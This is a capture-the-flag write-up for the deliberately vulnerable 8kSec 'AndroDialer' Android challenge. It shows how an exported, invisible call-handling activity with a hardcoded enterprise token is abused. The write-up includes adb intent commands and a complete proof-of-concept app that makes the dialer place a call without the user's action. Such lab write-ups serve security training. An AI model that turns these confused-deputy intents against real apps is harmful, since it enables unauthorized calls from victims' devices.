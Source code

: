 **Description**: AndroDialer is a powerful, feature-rich phone application designed to enhance your calling experience with advanced functionality and seamless integration.

**Link**: https://academy.8ksec.io/course/android-application-exploitation-challenges

![[8ksec-AndroDialer_1.png]]

Install the `.apk` file using **ADB**
```bash
adb install -r AndroDialer.apk
```

We can see in the settings functions some features of the app.
Take a look to the app and try use it. It's important give all the permissions to the app.
Also, **add the widget to Home Screen** and use it.
Let's inspect the **source code**, for that, we'll use **JADX**.

Looking in the `AndroidManifest.xml` file, we can notice that the *package name* is `com.eightksec.androdialer`.

There are a *couple of components*, but we just will focus on this:
```XML
<activity
    android:theme="@android:style/Theme.NoDisplay"
    android:name="com.eightksec.androdialer.CallHandlerServiceActivity"
    android:exported="true"
    android:taskAffinity=""
    android:excludeFromRecents="true">
    <intent-filter>
        <action android:name="com.eightksec.androdialer.action.PERFORM_CALL"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="tel"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="dialersec"
            android:host="call"/>
    </intent-filter>
</activity>
```

We have serious problems here, for example:
- **Exported and accessible** from external apps.
- Processes `Intent.ACTION_VIEW` with `scheme=tel:`.
- `@android:style/Theme.NoDisplay` -> Invisible activity.
- This is the **main vulnerable component** (*Confused Deputy / Privilege Re-delegation*).

We can see the
```XML
<action android:name="com.eightksec.androdialer.action.PERFORM_CALL"/>
```
action. But it is just another surface attack. We don't need this action because we have the
```XML
<data android:scheme="tel"/>
```
scheme.

Now let's take a look to **classes**. We can see a lot, but, as I mentioned, let's focus into  `CallHandlerServiceActivity` class.

Here we found an **hardcoded token**:
```java
[...]
[...]
[...]
if (str7.equals("8kd1aL3R_s3Cur3_k3Y_2023") || 
    str7.equals("8kd1aL3R-s3Cur3-k3Y-2023") || 
    AbstractC2986h.m5786a(str, "8kd1aL3R_s3Cur3_k3Y_2023") || 
    AbstractC2986h.m5786a(str, "8kd1aL3R-s3Cur3-k3Y-2023")) {
    
    if (getIntent().hasExtra("phoneNumber")) {
        str3 = getIntent().getStringExtra("phoneNumber");
[...]
[...]
[...]
```

Token: **`8kd1aL3R_s3Cur3_k3Y_2023`**
Also notice the name of *variable*: **`enterprise_auth_token`**, this sound important.
And here we can see how *scheme works*
```java
[...]
[...]
if (AbstractC2986h.m5786a(data2 != null ? data2.getScheme() : null, "tel")) {
    Uri data3 = getIntent().getData();
    if (data3 != null) {
        str3 = data3.getSchemeSpecificPart();
    }
} else {
    Uri data4 = getIntent().getData();
    if (AbstractC2986h.m5786a(data4 != null ? data4.getScheme() : null, "dialersec")) {
        Uri data5 = getIntent().getData();
        if (AbstractC2986h.m5786a(data5 != null ? data5.getHost() : null, "call")) {
            Uri data6 = getIntent().getData();
            String queryParameter = data6 != null ? data6.getQueryParameter("number") : null;
            if (queryParameter == null || queryParameter.length() == 0) {
                List<String> pathSegments3 = data != null ? data.getPathSegments() : null;
                Integer valueOf = pathSegments3 != null ? Integer.valueOf(pathSegments3.indexOf("number")) : null;
                if (valueOf != null && valueOf.intValue() >= 0 && valueOf.intValue() < pathSegments3.size() - 1) {
                    str3 = pathSegments3.get(valueOf.intValue() + 1);
                }
            } else {
                str3 = queryParameter;
            }
        }
    }
[...]
[...]
[...]
```

We have *two extras*:
- `arrayList.add(getIntent().getStringExtra("enterprise_auth_token"));`
- `str3 = getIntent().getStringExtra("phoneNumber");`

So, this seems simple, we just can test it using **ADB** and then, send the intent:
```bash
adb shell am start \
  -n com.eightksec.androdialer/.CallHandlerServiceActivity \
  -a android.intent.action.VIEW \
  --es enterprise_auth_token 8kd1aL3R_s3Cur3_k3Y_2023 \
  --es phoneNumber 13371337
```
Or, avoiding `phoneNumber` as extra:
```bash
adb shell am start \
  -n com.eightksec.androdialer/.CallHandlerServiceActivity \
  -a android.intent.action.VIEW \
  -d "tel:13371337" \
  --es enterprise_auth_token 8kd1aL3R_s3Cur3_k3Y_2023
```

If this works for you, you can now **develop the PoC application**!
### PoC
**`AndroidManifest.xml`**
```XML
<?xml version="1.0" encoding="utf-8"?>  
<manifest xmlns:android="http://schemas.android.com/apk/res/android"  
    xmlns:tools="http://schemas.android.com/tools">  
  
    <application  
        android:allowBackup="true"  
        android:label="PoCAndroDialer"  
        android:supportsRtl="true"  
        android:theme="@style/Theme.AppCompat.Light.NoActionBar">  
        <activity android:name=".MainActivity"  
            android:exported="true">  
            <intent-filter>  
                <action android:name="android.intent.action.MAIN"/>  
                <category android:name="android.intent.category.LAUNCHER"/>  
            </intent-filter>  
        </activity>  
    </application>  
  
</manifest>
```

**`MainActivity.java`**
```java
package com.lautaro.androdialer;  
  
import android.content.Intent;  
import android.net.Uri;  
import android.os.Bundle;  
import androidx.appcompat.app.AppCompatActivity;  
  
public class MainActivity extends AppCompatActivity {  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
  
        // Send intent  
        Intent exploit = new Intent(Intent.ACTION_VIEW);  
        exploit.setClassName(  
                "com.eightksec.androdialer",  
                "com.eightksec.androdialer.CallHandlerServiceActivity"  
        );  
        exploit.setData(Uri.parse("tel:13371337"));  
        exploit.putExtra("enterprise_auth_token", "8kd1aL3R_s3Cur3_k3Y_2023");  
  
        startActivity(exploit);  
        finish();  
    }  
  
}
```

Compile, install and then, you will notice a call to `1337-1337`

I hope you found it useful (: